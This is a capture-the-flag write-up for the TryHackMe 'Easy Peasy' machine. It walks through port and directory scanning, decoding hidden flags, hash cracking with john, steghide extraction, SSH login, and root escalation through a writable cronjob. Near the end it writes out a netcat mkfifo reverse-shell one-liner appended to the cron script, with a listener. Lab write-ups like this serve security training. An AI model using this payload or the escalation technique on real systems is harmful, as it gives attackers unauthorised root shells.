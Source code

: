 # Easy Peasy Writeup

## TASK 1 [Enumeration with Nmap]
We'll start our enumeration process by running an nmap scan. However, I will actually be using rustscan, as it has a few extra performance bells and whistles that I prefer. So, we'll run this command: rustscan -a 10.10.153.96 -- -sC -sV -oA 10.10.153.96 -v -A
with this command, we get these results:

PORT      STATE SERVICE REASON  VERSION  
80/tcp    open  http    syn-ack nginx 1.16.1  
| http-methods:   
|_  Supported Methods: GET HEAD  
| http-robots.txt: 1 disallowed entry   
|_/  
|_http-server-header: nginx/1.16.1  
|_http-title: Welcome to nginx!  
6498/tcp  open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)  
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCf5hzG6d/mEZZIeldje4ZWpwq0zAJWvFf1IzxJX1ZuOWIspHuL0X0z6qEfoTxI/o8tAFjVP/B03BT0WC3WQTm8V3Q63lGda0CBOly38hzNBk8p496scVI9WHWRaQTS4I82I8Cr+L6EjX5tMcAygRJ+QVuy2K5IqmhY3jULw/QH0fxN6Heew2EesHtJuXtf/33axQCWhxBckg1Re26UWKXdvKajYiljGCwEw25Y9qWZTGJ+2P67LVegf7FQu8ReXRrOTzHYL3PSnQJXiodPKb2ZvGAnaXYy8gm22HMspLeXF2riGSRYlGAO3KPDcDqF4hIeKwDWFbKaOwpHOX34qhJz  
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN8/fLeNoGv6fwAVkd9oVJ7OIbn4117grXfoBdQ8vY2qpkuh30sTk7WjT+Kns4MNtTUQ7H/sZrJz+ALPG/YnDfE=  
|   256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICNgw/EuawEJkhJk4i2pP4zHfUG6XfsPHh6+kQQz3G1D  
65524/tcp open  http    syn-ack Apache httpd 2.4.43 ((Ubuntu))  
| http-methods:   
|_  Supported Methods: OPTIONS HEAD GET POST  
| http-robots.txt: 1 disallowed entry   
|_/  
|_http-server-header: Apache/2.4.43 (Ubuntu)  
|_http-title: Apache2 Debian Default Page: It works  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

How many ports are open? [3]

What is the version of nginx? [1.16.1]

What is running on the highest port? [Apache]

## TASK 2 [Compromising the Machine]
Before continuing, lets download the easypeasy.txt file provided to us, as it may be useful. Upon opening it, we see its a wordlist of passwords! I'm sure we'll need this later. Now continuing with the excersize...
Since we see an obvious http server on the machine, we can run gobuster to scan for any directories that may be hidden on the server. We'll do that with this command: gobuster dir -u http://10.10.153.96/ -w /usr/share/wordlists/dirb/common.txt -o dirs.log
Where dir indicates directory mode, -u [url] -w [wordlist] -o [outputfile]
with this scan, we find two files and a directory:
/hidden               (Status: 301) [Size: 169] [--> http://10.10.153.96/hidden/]
/index.html           (Status: 200) [Size: 612]                                  
/robots.txt           (Status: 200) [Size: 43] 
The homepage is just a welcome screen indicating a successful server installation. Obviously, there is going to be more to this box than that.
First, lets check out the robots.txt file and see if there's anything off about it.
User-Agent:*
Disallow:/
Robots Not Allowed

A fairly normal robots.txt file... lets check that directory. /hidden gives us this picture:
![lost-places-1928727_960_720](https://user-images.githubusercontent.com/93058891/152861022-0d899765-34ee-44ef-be5f-293a3b6dad85.jpg)
However, I'm going to ignore the picture for now asnd instead run another gobuster scan on the /hidden directory with this command: 
gobuster dir -u http://10.10.153.96/hidden -w /usr/share/wordlists/dirb/common.txt -o dirsh.log 
results find two items:
/index.html           (Status: 200) [Size: 390]
/whatever             (Status: 301) [Size: 169] [--> http://10.10.153.96/hidden/whatever/]

Visiting this directory gives us this image:
![norway-772991_960_720](https://user-images.githubusercontent.com/93058891/152862426-d37fc980-24d8-4207-bb45-77076e5ccf27.jpg)
But worse, the title text tells us "dead end". I guess we'll investigate these pictures now. We'll start by simply inspecting the source code of the pages. The first looks normal, but on the second one, we find this...

<p hidden="">ZmxhZ3tmMXJzN19mbDRnfQ==</p>

Let's use Cyberchef to decode it. Putting the text inside the HTML into Cyberchef gives us our first flag!

Let's now move on to the other http server on the machine. To do this, just add :65524 to the end of the IP in the URL. The homepage of the site is an Apache default page. Let's run another gobuster scan on this server like this, with the port in the url: 

gobuster dir -u http://10.10.153.96:65524/ -w /usr/share/wordlists/dirb/common.txt -o dirs6.log

Nothing of note other than a robots.txt file. This one looks a little different though:

User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions

That second User-Agent looks like a hash. Trying the usual sites doesn't seem to yield a result, though. With enough research, we are able to find a site that cracks it. The result is the second flag! Now if we want to find the third flag, we can just inspect the source of the page on the 65524 port to find it.

The exercise hints at a hidden directory but gobuster failed to find anything. So let's inspect the source code. In the source, we find this line: 
<p hidden>its encoded with ba....:REDACTED</p>

This looks like an encrypting algorithm. Using the hint provided by the code, we eventually find the directory. Visiting the directory takes us to this screen:
![matrix-3109795_960_720](https://user-images.githubusercontent.com/93058891/154327480-ba5d1ebb-4f6a-4ba8-a836-dbefcdd7b01b.jpg)  
Being just another image, we'll inspect the source code. In it, we find this interesting line:    
<p>9[REDACTED]1</p>  
Using Cyberchef, we determine that this is likely a SHA-256 hash. We'll bruteforce it with the easypeasy.txt file. We'll use this command:     
   
john --wordlist=easypeasy.txt --format=gost hash.txt
  
The end result provides us with a password!  
With the password, wi then look through the directory to find a jpg file. We'll crack it using steghide. Upon Cracking, we find a secrettext.txt file. lets open that. The file contains a username and a binary encoded password. Let's decode it! 
Now with the username and password in hand, lets login with ssh:    
ssh -p 6498 boring@10.10.153.96    
Now inside the box, we find the user.txt file in the home directory. Something seems wrong with it though...  
User Flag But It Seems Wrong Like It's Rotated Or Something  
synt{REDACTED}  
We'll use a Caesar Cipher to crack the code. Upon cracking, we get the flag!  
Now all thats left is the root flag. First, I'll check sudo -l:  
Sorry, user boring may not run sudo on kral4-PC.  
Darn, thought I had something there. Looking at the tryhackme challenge page, it says the box has a vulnerable cronjob. So let's run:    
cat /etc/crontab   
SHELL=/bin/sh  
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin  
  
m h dom mon dow user  command  
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly  
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )  
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )  
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )  
  
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh  

I think we found it. Let's check if it's writeable. We go to the www directory and find:  
boring@kral4-PC:/var/www$ ls -la  
total 16  
drwxr-xr-x  3 root   root   4096 Jun 15  2020 .  
drwxr-xr-x 14 root   root   4096 Jun 13  2020 ..  
drwxr-xr-x  4 root   root   4096 Jun 15  2020 html  
-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh  

It is! This means we can use it to spawn a root shell using netcat. We'll edit the fie with this command:  

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.92.60 4445 >/tmp/f" >> /var/www/.mysecretcronjob.sh  

Now on our own machine we type:  
nc -lvnp 4445  
This should give us a root shell. Once we're in, all we need to do is run:  
cat /root/.root.txt  
And we get the flag!





























